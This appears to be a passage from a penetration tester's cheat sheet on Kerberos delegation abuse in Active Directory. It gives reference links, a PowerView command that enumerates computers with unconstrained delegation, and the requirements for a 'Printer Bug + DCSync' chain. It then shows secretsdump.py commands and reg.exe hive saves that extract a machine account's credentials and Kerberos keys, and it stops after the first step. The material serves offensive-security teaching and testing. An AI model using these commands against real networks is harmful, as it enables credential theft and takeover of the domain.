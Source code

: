 # Delegation Abuse

* [https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-kerberos/kerberos-delegations](https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-kerberos/kerberos-delegations)
* [https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/](https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)




## Unconstrained Delegation

* [https://adsecurity.org/?p=1667](https://adsecurity.org/?p=1667)

Enumerate:

```
PowerView3 > Get-DomainComputer -Unconstrained | select dnshostname,samaccountname,useraccountcontrol
```



### "Relaying" Kerberos

* [https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/](https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/)
* [https://snovvcrash.rocks/2021/05/21/calculating-kerberos-keys.html](https://snovvcrash.rocks/2021/05/21/calculating-kerberos-keys.html)
* [[PDF] From Zero Credential to Full Domain Compromise (Haboob Team)](https://drive.google.com/file/d/1htCGIt1Wcg53zCSGnRk4wfcKOk5A_YDP/view?usp=sharing)


#### Printer Bug + DCSync

Requirements:

* Owned computer account with unconstrained delegation enabled (SRV01).
* Printer bug on a domain controller (DC01).
* Permissions to add an SPN for the owned computer account and a new DNS record in AD.

1\. Grab owned computer account password to calculate its Kerberos AES key. This is done automatically when extracting the password remotely with `secretsdump.py`, or it will be done later by `krbrelayx.py` when providing it the password in hex from local `secretsdump.py` output:

```
 # Remotely
$ secretsdump.py MEGACORP/snovvcrash:'Passw0rd!'@SRV01.megacorp.local -ts
...
MEGACORP\SRV01$:aes256-cts-hmac-sha1-96:00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff00ff

 # Locally
Cmd > reg.exe save hklm\system system.hive
Cmd > reg.exe save hklm\security security.hive
$ secretsdump.py -system system.hive -security security.hive LOCAL
...
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:<PLAIN_PASSWORD_HEX>
```
